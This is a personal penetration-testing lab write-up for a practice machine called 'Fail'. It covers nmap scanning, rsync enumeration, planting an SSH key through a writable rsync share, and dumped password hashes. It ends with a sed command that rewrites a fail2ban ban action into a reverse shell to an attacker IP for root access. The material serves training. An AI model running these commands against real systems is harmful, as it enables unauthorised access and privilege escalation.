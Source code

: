 # Fail Notes

## Data 

IP: 
OS:
Arch:
Hostname:
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Fail-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 


#### Timeline of tasks completed
      

![](reping.png)
searchsploit-rsync.png
sudo nmap -p- -oA nmap/rerescan-script-typo-All-TCP-slow --min-rate 10 192.168.229.126
https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync
https://youssef-ichioui.medium.com/abusing-rsync-misconfiguration-to-get-persistent-access-via-ssh-2507d4a1690b
https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/


phindwhatrsynccantdo.png



bannerandmanenum.png

correctway.png

```bash
nc -nv $ip 873
@RSYNCDL: 31.0 # Server sends this just send it back
# Enumerate files - `#list` 
#list 
# If the send back a directory if @RSYNCD: AUTHREQD then password is required

# Similarly with rsync
rsync -av --list-only rsync://$ipaddress

# SSH Key syncing - https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/

ssh-keygen -f testkey
cat testkey.pub > authorized_keys


rsync -av .ssh rsync://192.168.193.126/fox

# /etc/rsyncd.secrets


rsync -vAXogEp  ./bash rsync://192.168.193.126/fox



```

whathashitisaskaiforthefirsttime.png

```
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
-rw-r--r-- 1 root root 47 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
-rw-r--r-- 1 root root 117 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 18  2018 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
```

Very normal crons
![](cronacronalong.png)

failedintothessh.png

```
fox@fail:/dev/shm$ find / -group fail2ban 2>/dev/null | grep -v '/run/\|/proc/\|/sys/' | xargs -I {} grep -r -e 'ass' {}
```

Itriedtouploadbashwithdifferentperms.png

The password does not crack...


Hint taken: Check your group membership and what processes are run on schedule. Enumerate the relevant directory. Then, abuse an action to get a shell.


```bash
# root will only be allowed to run this just for methodological thoroughness
fox@fail:/dev/shm$ which fail2ban 
# Path is not controllable
echo $PATH | tr -s ':' '\n'
/usr/local/bin
/usr/bin
/bin
/usr/local/games
/usr/games

fox@fail:/dev/shm$ find / -type d -group fail2ban -perm -o+w 2>/dev/null
/etc/fail2ban* # ARE not writable 
fox@fail:/dev/shm$ find / -type d -name *fail2ban* -ls 2>/dev/null
```

Triple check encase it is ever 5 minutes
whatwhereandwhy.png

Trying to work if /sbin/init that is symlinked to systemd is misconfigured
```
fox@fail:/dev/shm$ ps -o uid= -p $(pidof /sbin/init)
```

systemdessnut.png

pushphindtoaitheansweriamnotdorking.png

HELPED-THROUGHED because I am too ill and stress TO ONCE AGAIN READ THE GROUP PERMISSIONS FOR THE 3rd+ box in the last 3 months atleast

```

ls -l /etc/fail2ban/

cat /etc/fail2ban/README.fox 
# Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!


ls -l /etc/fail2ban/action.d

cat /etc/fail2ban/jail.conf

sed -i 's@actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>@actionban = bash -i \>\& \/192.168.45.217\/4444 0\>\&1@g' /etc/fail2ban/action.d/iptables-multiport.conf


```


theyearofthefacepalmandreadthegrouppiditisnotjustyouruser.png


pain.png

I would have never probably thought trying to ban mmy own ip so I need to reconfigure the way I think still on this issue. State of mind regardless 

